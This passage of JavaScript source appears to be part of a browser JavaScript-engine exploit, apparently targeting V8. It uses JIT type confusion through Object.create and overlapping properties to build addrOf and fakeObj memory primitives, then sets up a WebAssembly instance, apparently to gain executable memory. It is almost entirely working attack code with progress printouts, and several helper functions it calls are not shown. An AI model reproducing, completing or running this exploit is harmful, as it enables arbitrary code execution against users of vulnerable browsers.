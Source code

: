 ```
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i &lt; 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}

function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i &lt; 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}

var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
print("[+] check whether vulnerability exists");
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and b${p2} overlap!`);
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
give_me_a_clean_newspace();
```